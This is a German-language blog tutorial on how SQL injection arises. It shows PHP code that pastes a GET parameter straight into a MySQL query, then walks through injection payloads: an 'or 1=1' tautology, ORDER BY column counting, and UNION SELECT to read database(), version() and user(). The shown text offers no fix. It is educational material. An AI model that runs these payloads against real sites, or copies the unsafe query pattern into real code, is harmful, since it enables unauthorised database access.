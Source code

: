 ```yaml
---
layout: post
title: SQL Injections und wie sie entstehen
author: Manuel Zarat
category: tutorials
tags: protokoll
permalink: /blog/sql-injections-und-wie-sie-entstehen
---
```


<p>Ich habe ein Beispiel auf <a href="http://www.sqlfiddle.com/#!9/70f022" target="_blank" rel="noopener">SQL Fiddle</a> erstellt.</p>
<!--excerpt_separator-->
<pre>CREATE TABLE `user` (<br />  `id` INT NOT NULL AUTO_INCREMENT,<br />  `mail` VARCHAR(50) NULL,<br />  `pass` VARCHAR(50) NULL,<br />  PRIMARY KEY (`id`));<br />insert into user (mail,pass) values ( 'user1@zarat.ml', md5('user1') );<br />insert into user (mail,pass) values ( 'user2@zarat.ml', md5('user2') );<br />insert into user (mail,pass) values ( 'user3@zarat.ml', md5('user3') );</pre>
<p>Nehmen wir an, wir nutzen aus Unwissenheit folgenden SQL Query:</p>
<pre>$id = $_GET['id'];
mysql_Query("SELECT * FROM user WHERE id= $id"); //oder
mysql_Query("SELECT * FROM user WHERE id= '$id'");
</pre>
<p>Anhand des Ergebnisses dieser Abfrage entscheiden wir, ob der User eingelogt ist oder nicht. Ein Hacker würde versuchen, den Query zu verändern indem er die als GET Parameter übergebene id manipuliert.</p>
<pre>SELECT * FROM user WHERE id=1 or 1=1; //oder
SELECT * FROM user WHERE id='1' or '1'='1';</pre>
<p>Es ist egal, welche id übergeben wird, der Query wird so abgeändert, das das nachfolgende or 1=1 alle vorangehenden Statements überschreibt. Wenn diese Abfrage an den SQL Interpreter weitergeleitet wird, bedeutet das, man kann sogut wie alles in den Query interpretieren. Ich möchte jetzt den Namen der Datenbank wissen. Dazu muss ich zuerst herausfinden, wieviele Spalten der Datensatz hat.</p>
<pre>SELECT * FROM user WHERE id=1 or 1=1 order by 1; //oder
SELECT * FROM user WHERE id='1' or '1'='1' order by 1;</pre>
<p>Diese ORDER BY Klausel erhöhe ich dabei jedes mal um 1, bis ein Fehler kommt. Ich weiß jetzt die letzte Zahl ist die Anzahl an Spalten! Somit kann ich den Query abändern und mit einem UNION SELECT das Ergebnis "überschreiben".</p>
<pre>SELECT * FROM user WHERE id=1 or 1=1 union select 1,2,3; //oder
SELECT * FROM user WHERE id='1' or '1'='1' union select 1,2,3;</pre>
<p>Dieser Query wäre zwar aufwendig und unnötig aber noch kein "Fehler" in dem Sinn. Statt die gefundenen Variablen anhand der Nummerierung ins Ergebnis zu schreiben nutze ich interne Funktionen um meine Informationen zui erhalten. Erstmal sind folgende Funktionen von Bedeutung</p>
<ul>
<li>database()</li>
<li>user()</li>
<li>version()</li>
</ul>
<pre>SELECT * FROM user WHERE id=1 or 1=1 union select database(),version(),user(); //oder
SELECT * FROM user WHERE id='1' or '1'='1' union select database(),version(),user();</pre>
<p>Damit haben wir vollen Zugriff auf die Datenbank.</p>
